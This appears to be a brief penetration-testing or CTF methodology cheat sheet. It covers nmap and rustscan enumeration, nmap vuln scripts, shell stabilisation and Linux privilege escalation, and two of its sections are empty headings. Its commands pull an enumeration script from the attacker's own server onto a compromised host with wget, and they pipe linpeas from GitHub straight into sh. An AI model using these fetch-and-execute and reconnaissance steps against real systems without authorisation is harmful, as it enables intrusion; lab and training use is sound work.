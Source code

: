 ## Setting
1.export ip=10.10.10.10\
1.5 make directory for nmap result: mkdir nmap && cd nmap
## Ennumeration
2. `nmap -sC -sV -p- -Pn $ip --open -oN result   AND  rustscan -a $IP and rustscan -a $IP`.\ 
3. Check which ports are open. Take note of service running and versions(for searchsploit)\
4. Manual ennumeration. Visit the open ports to see if we can get initial foothold information. e.g anoymous login, default login,etc\
5. Check for vulnerabiltieis on specific ports using nmap script `nmap -p 80,445,139 --script=*vuln* $IP`
## Using searchsploit, payload, revershell 

## Getting a reverseshell(stable)

## Privilege Escalation
0. Stabalize shell `python3 -c 'import pty; pty.spawn("/bin/bash")'` `export TERM=xterm-256color` \
1.Automated scan for vulnerabilities or manual ennumeration.\
2.Create a directory and a a linEnum.sh file. Copy paste the content from https://github.com/rebootuser/LinEnum/blob/master/LinEnum.sh \
3.Host a python server `python3 -m http.server 8080` `or( 80)` to transfer the linEum.sh\
3.5 
4.From the reverse shell, `wget http://$myIP:8080/linEum.sh .` to recieve linEum.sh if we get permission denied  `cd /tmp` \
5.Give access. `chmod +x linEum.sh` and `./linEum -t` \
6. If file transfer premission is denied, simply `curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh` which would execute script.
7.Or manually download the latest linpeas https://github.com/carlospolop/PEASS-ng/releases/tag/20221225
 
